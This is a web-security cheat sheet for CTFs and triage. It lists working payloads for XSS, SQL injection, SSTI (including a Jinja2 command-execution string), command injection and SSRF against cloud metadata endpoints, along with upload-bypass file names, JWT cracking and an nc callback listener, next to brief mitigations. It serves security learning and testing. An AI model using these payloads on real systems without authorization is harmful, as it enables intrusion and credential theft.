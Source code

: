 ```yaml
---
title: "Web Security Notes — Practical Playbook"
date: "2025-10-29"
author: "th3mujd11"
category: "web"
tags: [web, cheatsheet, xss, ssti, sqli, ssrf, idor]
---
```


# Overview

Opinionated, field-tested notes for common web vulns and the fastest probes that catch them. Optimized for CTFs and quick triage.

---

# Methodology Snapshot

- Recon: `whatweb`, crawl, JS grep for hidden routes and API keys.
- Inputs: enumerate every parameter, both query and body (JSON + form).
- Trust boundaries: auth/session, ID space, file boundaries, outbound network.
- Feedback: watch server errors/timeouts, and reflect vs. store behavior.

```bash
whatweb -a 3 https://target
feroxbuster -u https://target -t 50 -x html,txt,js -o ferox.txt
rg -n "api|key|token|secret|/admin|/internal" -S public/*.js
```

---

# Authentication & Session

- Default creds, weak sign-up validation, invited-only toggles.
- Session fixation: check if session changes on login.
- JWT checks: `none` alg, key confusion, weak secrets.

```bash
# try common JWT secrets with jwtcrack or wordlists
python3 -m jwtcrack -t <token> -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

---

# Access Control (IDOR)

Probe sequential/non-random IDs and foreign keys.

```http
GET /api/user/1001  -> 200
GET /api/user/1002  -> 200 (if not yours, IDOR)
```

Mitigate with server-side ownership checks and deny-by-default routes.

---

# XSS (Reflected/Stored)

Fastest checks that bypass naive filters:

```html
<img src=x onerror=alert(1)>
<svg onload=alert(1)></svg>
<a href=javasript:alert(1)>x</a>
```

Look for JSON contexts and DOM sinks (`innerHTML`, `location.hash`).

---

# SSTI

Arithmetic canaries and engine pivots:

```text
{{7*7}}  ${7*7}  #{7*7}  <%= 7*7 %>
```

Jinja2 to RCE:

```text
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

---

# SQL Injection

Boolean/time probes and UNION path.

```text
' OR 1=1 -- -
' OR SLEEP(2) -- -

# UNION template
' UNION SELECT 1,@@version,3 -- -
```

Mitigate with parameterized queries and strict ORM usage.

---

# SSRF

Targets: `127.0.0.1`, `169.254.169.254`, Docker/Cloud metadata, internal admin.

```http
url=http://127.0.0.1:80/health
url=http://169.254.169.254/latest/meta-data/
```

Defense: allowlists, URL parsing in server-side libs, block private ranges.

---

# File Upload

Tricks: double extensions, case toggles, polyglot content, race updates.

```text
shell.php%00.jpg
SHeLl.PHp
```

Server-side: validate magic bytes, store outside webroot, randomize names.

---

# Deserialization

Look for encoded blobs, `pickle`, `php serialize`, or Java `readObject`.

Mitigate with signed tokens and safe serializers.

---

# Command Injection

Whitespace/IFS variants:

```text
;id
|id
||id
$(id)
`id`
${IFS}id
```

---

# Crypto Gotchas

- ECB mode, constant nonces, hardcoded keys, truncated MACs.
- JWT: `alg=none`, HS/RS confusion.

---

# Handy One-Liners

```bash
# quick HTTP server
python3 -m http.server 8000

# listen for callbacks
nc -lvnp 4444

# URL encode/decode
python3 - << 'PY'
import urllib.parse as u; s=input(); print(u.quote(s)); print(u.unquote(s))
PY
```

---

# References

- PortSwigger Web Academy: https://portswigger.net/web-security
- PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings
- OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/

